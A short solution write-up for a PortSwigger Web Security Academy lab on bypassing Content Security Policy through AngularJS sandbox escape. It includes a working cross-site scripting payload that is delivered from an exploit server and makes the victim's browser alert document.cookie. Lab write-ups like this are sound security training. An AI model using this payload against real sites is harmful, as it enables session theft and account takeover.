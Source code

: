 ----

### Lab description


This lab uses [CSP](https://portswigger.net/web-security/cross-site-scripting/content-security-policy) and [AngularJS](https://portswigger.net/web-security/cross-site-scripting/contexts/client-side-template-injection).

To solve the lab, perform a [cross-site scripting](https://portswigger.net/web-security/cross-site-scripting) attack that bypasses CSP, escapes the AngularJS sandbox, and alerts `document.cookie`.


### Lab solution

- Add this payload ``` <script>
location='https://WEB-ID.web-security-academy.net/?search=%3Cinput%20id=x%20ng-focus=$event.composedPath()|orderBy:%27(z=alert)(document.cookie)%27%3E#x';
</script> ```
at exploit server and click at `Deliver exploit to victim`

![](/static/img/Pasted_image_20230621084830.png)